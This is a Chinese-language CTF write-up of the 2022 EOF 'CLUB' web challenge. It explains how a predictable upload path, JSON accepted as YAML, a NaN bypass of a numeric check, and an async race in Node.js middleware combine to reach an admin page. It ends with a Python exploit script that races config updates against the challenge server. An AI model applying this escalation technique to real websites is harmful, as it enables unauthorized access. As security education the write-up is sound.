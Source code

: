 # 2022 EOF Writeup

這次比賽基本上都沒解出幾題，這邊 Writeup 大部分都是事後解完補上去的 QQ

## CLUB

這題基本原理是利用 Node.js 本身實作 Schedule 的機制，透過 Promise Await 與 Callback 混合實作的問題讓 Middleware 認證機制產生 Race Condition，達到讀取高權限頁面的目的。

要解決這個問題需要保證對 DB 的讀寫以及驗證都要是一個完整的 Transaction（對單一用戶要是 Atomic 的），才不會有下面這個 Race Condition 的產生。

### Target & Vulnerable Point

這題是在模仿一般網站頁面的權限驗證機制，如果使用者的 Config Group Level 是大於 2 的話就可以查看 Admin Page。

```js
app.get("/profile", requireLogin, ensureConfig(), async (req, res) => {
    const configPath = await Users.getConfig(req.session.username);
    const config = loadConfig(configPath);
    if (config.group <= 2) {
        res.render("profile", { username: req.session.username, config });
    } else {

        // ...

        res.render("admin", {
            messages: parsed,
            username: "admin",
            config: { bgColor: "#00f", color: "#0f0" },
        });
    }
});
```

但整體應用程式實作上出了以下幾個問題，串再一起就可以達成 Vertical Privilege Escalation。總共有 4 個地方：

1. 可以上傳檔案到 Config 檔案儲存的同個資料夾，並且檔名可知：

```js
app.post("/sendMessage", requireLogin, async (req, res) => {
    const message = JSON.stringify(req.body);
    const messageHash = sha256(message);

    fs.writeFileSync(`./storage/${messageHash}.json`, message);

    // ...

    res.redirect("/");
});
```

2. npm yaml library 是可以 Load json 格式的，導致所有 Yaml 格式可以被解讀成設定資料，讓攻擊者可以任意設定權限大小
3. 處理權限數值的防禦實作上有缺陷，可以透過附值成 `NaN` 來略過所有檢查

```js
// 檢查是否為數字字串的地方
function isNumberStr(x) {
    if (typeof x !== "string") {
      return false;
    }
    return String(Number(x)) == x;
}

// Load Config 的地方
const loadConfig = function (configPath) {
    const normalizedPath = path.resolve("/", configPath);
    const configStr = fs.readFileSync(`./storage${normalizedPath}`, "utf8");
    const config = YAML.parse(configStr);
    if (!isNumberStr(config.group)) {
        config.group = "0";
    }
    config.group = Math.max(0, Math.min(2, Number(config.group)));

    // ...

    return config;
};
```

4. Js Race Condition 的問題

```js
// 處理 DB 的地方是用 Callback 的形式實作
function setConfig(username, config) {
   return new Promise((resolve, reject) => {
      db.run(
            "UPDATE Users SET config = ? WHERE username = ?",
            [config, username],
            (err) => {
                if (err) {
                    reject(err);
                } else {
                    resolve();
                }
            }
        );
    });
}

// 路徑認證的地方是使用 Async / Await 的模式實作
const ensureConfig = (forceLogin = true) => {
    return async function (req, res, next) {
        if (forceLogin && !req.session.username) {
            res.status(403).send("login required");
        } else {
            if (req.session.username) {
                const acceptable = ["tier0.yml", "tier1.yml", "tier2.yml"];
                const config = await Users.getConfig(req.session.username);
                // Bad Things Happend here. If race condition happen here, config will get legit content but update will happen later.
                if (!acceptable.includes(config)) {
                    Users.setConfig(req.session.username, acceptable[0]);
                }
            }
            next();
        }
    };
};
```

以上幾個實作上的漏洞，就可以的成垂直擴權的目的了

### Pwn Script

```python
from requests import get, post, Session

URL = "http://dsnspc.retro9.me:9000"
session = Session()

# Login and Create Session
session.post(URL+"/login", data={
    "username": "Retro9"
})

print("Login User as Retro9 ...")

# Check Profile
# print(session.get(URL+"/profile").text

# Send Message to The Server
session.post(URL+"/sendMessage", data={
    "title": "Title",
    "content": "Content",
    "group": "NaN"
})

ROUGE_YAML_FILE = "108536e1544d04754f60d3a4d946e35db7038fc731aef90510852f45a920c8fc.json"

# Update and Race Condition
while True:
    result = session.post(URL+"/update", data={
        "config": ROUGE_YAML_FILE
    })

    if "EOF{" in result.text:
        print(result.text)
        break

```

![RaceCondition](resources/Screen%20Shot%202022-02-21%20at%205.01.37%20PM.png)

